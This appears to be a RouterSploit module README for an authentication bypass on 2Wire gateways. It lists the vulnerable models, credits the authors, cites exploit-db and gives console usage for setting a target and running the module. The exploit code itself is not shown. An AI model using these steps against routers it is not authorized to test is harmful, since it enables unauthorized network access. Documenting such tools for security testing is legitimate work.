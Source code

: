 # 2Wire Gateway Auth Bypass

## Description
Module exploits 2Wire Gateway authentication bypass vulnerability. If the target is vulnerable link to bypass authentication is provided.

## Authors
* bugz  # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/9459/](https://www.exploit-db.com/exploits/9459/)

## Vulnerable devices
* 2Wire 2701HGV-W
* 2Wire 3800HGV-B
* 2Wire 3801HGV

## Usage
```
rsf > use exploits/2wire/gateway_auth_bypass
rsf (2Wire Gateway Auth Bypass) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target port


rsf (2Wire Gateway Auth Bypass) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (2Wire Gateway Auth Bypass) > run
[*] Running module...
```
